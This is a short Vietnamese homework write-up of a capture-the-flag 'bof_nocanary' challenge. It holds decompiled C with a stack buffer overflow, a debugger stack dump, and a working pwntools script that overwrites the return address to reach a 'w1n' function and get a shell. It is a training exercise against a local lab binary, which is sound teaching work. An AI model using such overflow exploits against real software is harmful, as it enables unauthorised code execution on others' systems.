 # pwn

# Homework - 18/8 #

## bof_nocanary ##

```C
void *__fastcall vuln(const char *a1)
{
  size_t v1; // rax
  char dest[32]; // [rsp+10h] [rbp-20h] BYREF

  if ( strlen(a1) > 64 )
  {
    puts("Buffer too long!!");
    _exit(-1);
  }
  v1 = strlen(a1);
  return memcpy(dest, a1, v1);
}
```

Trong bài này, dest có 32 kí tự, mà giới hạn độ dài của tham số truyền vào là 64, nên mình có thể ghi đè được 32 kí tự

Thử nhập 1 chuỗi kí tự a nhiều hơn 32 kí tự thì mình thấy rbp bị ghi đè
```
00:0000│ rsp     0x7fffffffdd70 —▸ 0x555555554040 ◂— 0x400000006
01:0008│         0x7fffffffdd78 —▸ 0x7fffffffe184 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
02:0010│ rax rdi 0x7fffffffdd80 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓            3 skipped
06:0030│ rbp     0x7fffffffdda0 —▸ 0x7fffffff6161 ◂— 0x0
07:0038│         0x7fffffffdda8 —▸ 0x5555555552cd (main+132) ◂— mov eax, 0
```

Để gọi được hàm `w1n` ở địa chỉ `0x5555555552d4` thì mình cần ghi đè địa chỉ trả về hàm main.
Nhìn stack ở trên thì mình cần 32 kí tự + 8 kí tự để ghi đè rbp + kí tự '\xd4'

```python
from pwn import *
proc = process(["./bof", (b"a"*40 + b"\xd4")])
proc.interactive()
```
```
duplicate@Pwn:/tmp$ ipython3 solbof.py
[x] Starting local process './bof'
[+] Starting local process './bof': pid 1852
[*] Switching to interactive mode
whoami
duplicate
[*] Stopped process './bof' (pid 1852)
```



